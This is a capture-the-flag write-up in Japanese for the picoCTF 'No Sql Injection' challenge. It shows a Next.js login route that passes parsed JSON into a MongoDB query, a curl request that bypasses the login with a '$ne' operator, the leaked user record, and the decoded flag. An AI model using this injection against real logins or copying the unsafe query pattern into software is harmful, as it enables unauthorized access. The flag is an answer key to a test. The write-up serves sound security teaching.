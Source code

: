 # No Sql Injection:Web Exploitation:200pts
Can you try to get access to this website to get the flag?  
You can download the source [here](app.tar.gz).  
The website is running [here](http://atlas.picoctf.net:61553/). Can you log in?  

Hints  
1  
Not only SQL injection exist but also NoSQL injection exists.  
2  
Make sure you look at everything the server is sending back  

# Solution
URLとソースが渡される。  
アクセスするとただのログインフォームのようだ。  
![site.png](site/site.png)  
問題名からもNoSQLiを行えとのことらしい。  
ソースを見るとフロントの主要個所は以下の通りであった。  
```ts
~~~
export default function Home() {
  const router = useRouter();
  const [email, setEmail] = useState("");
  const [password, setPassword] = useState("");
  const [submitting, setSubmitting] = useState(false);
  const [visible, setVisible] = useState(true);
  const [message, setMessage] = useState("");

  const handleSubmit = async (e: React.FormEvent) => {
    e.preventDefault();
    if (email !== "" || password !== "") {
      setSubmitting(true);
      try {
        const response = await fetch("/api/login/", {
          method: "POST",
          body: JSON.stringify({
            email: email,
            password: password,
          }),
        });

        if (response.status === 200) {
          router.push("/admin");
        } else if (response.status === 401) {
          setMessage("Invalid email or password");
        }
      } catch (error) {
        setMessage("Invalid email or password");
      } finally {
        setSubmitting(false);
      }
    } else {
      setMessage("Email or password cannot be empty");
    }
  };
~~~
```
`/api/login/`にJSONを文字列化したものをPOSTし、200であればログインに成功するようだ。  
`/api/login/`のソースは以下の通りであった。  
```ts
import User from "@/models/user";
import { connectToDB } from "@/utils/database";
import { seedUsers } from "@/utils/seed";

export const POST = async (req: any) => {
  const { email, password } = await req.json();
  try {
    await connectToDB();
    await seedUsers();
    const users = await User.find({
      email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
      password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password
    });

    if (users.length < 1)
      return new Response("Invalid email or password", { status: 401 });
    else {
      return new Response(JSON.stringify(users), { status: 200 });
    }
  } catch (error) {
    return new Response("Internal Server Error", { status: 500 });
  }
};
```
JSONかどうか判定し、`User.find`を行っている。  
seed.tsを見ると以下の通りに初期ユーザ定義されているので、これでログインすればいいようだがパスワードがわからない。  
```ts
import User from "../models/user";


export const seedUsers = async (): Promise<void> => {
  
  try {

     const users = await User.find({email: "joshiriya355@mumbama.com"});
      if (users.length > 0) {
        return;
      }
    const newUser = new User({
      firstName: "Josh",
      lastName: "Iriya",
      email: "joshiriya355@mumbama.com",
      password: process.env.NEXT_PUBLIC_PASSWORD as string
    });
    await newUser.save();
  } catch (error) {
    throw new Error("Some thing went wrong")
  }
};
```
MongoDBでよく知られる、クエリ文に否定を含める`"$ne"`テクニックを使えばよい。  
```bash
$ curl -X POST 'http://atlas.picoctf.net:61553/api/login/' -d '{"email":"joshiriya355@mumbama.com","password":"{\"$ne\": \"satoki\"}"}' -L
[{"_id":"65f08d5715535af6a1394524","email":"joshiriya355@mumbama.com","firstName":"Josh","lastName":"Iriya","password":"Je80T8M7sUA","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==","__v":0}]
$ echo -n 'cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==' | base64 -d
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_e31ef324}
```
応答の`token`にbase64されたflagが含まれていた。  

## picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_e31ef324}